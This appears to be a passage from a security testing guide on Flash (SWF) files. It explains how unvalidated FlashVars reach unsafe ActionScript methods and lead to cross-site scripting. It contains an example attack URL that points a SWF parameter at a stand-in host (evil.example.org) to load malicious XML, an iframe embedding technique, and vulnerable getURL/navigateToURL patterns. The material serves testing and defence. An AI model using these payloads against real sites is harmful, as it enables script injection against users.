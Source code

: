 
The above code could be attacked by requesting:

```
 http://victim/file.swf?language=http://evil.example.org/malicious.xml?
```


#### Unsafe Methods
When an entry point is identified, the data it represents could be used by unsafe methods. If the data is not filtered/validated using the right regexp it could lead to some security issue.


Unsafe Methods since version r47 are:
```
loadVariables()
loadMovie()
getURL()
loadMovie()
loadMovieNum()
FScrollPane.loadScrollContent()
LoadVars.load
LoadVars.send
XML.load ( 'url' )
LoadVars.load ( 'url' )
Sound.loadSound( 'url' , isStreaming );
NetStream.play( 'url' );

flash.external.ExternalInterface.call(_root.callback)

htmlText
```


#### The Test
In order to exploit a vulnerability, the swf file should be hosted on the victim's host, and the techniques of reflected XSS must be used. That is forcing the browser to load a pure swf file directly in the location bar (by redirection or social engineering) or by loading it through an iframe from an evil page:
```
 <iframe src='http://victim/path/to/file.swf'></iframe>
```
This is because in this situation the browser will self-generate an HTML page as if it were hosted by the victim host.


#### XSS

**GetURL (AS2) / NavigateToURL (AS3):**

The GetURL function in ActionScript 2.0 and NavigateToURL in ActionScript 3.0 lets the movie load a URI into the browser's window.


So if an undefined variable is used as the first argument for getURL:
```
 getURL(_root.URI,'_targetFrame');
```
Or if a FlashVar is used as the parameter that is passed to a navigateToURL function:
```
 var request:URLRequest = new URLRequest(FlashVarSuppliedURL);
 navigateToURL(request);
```
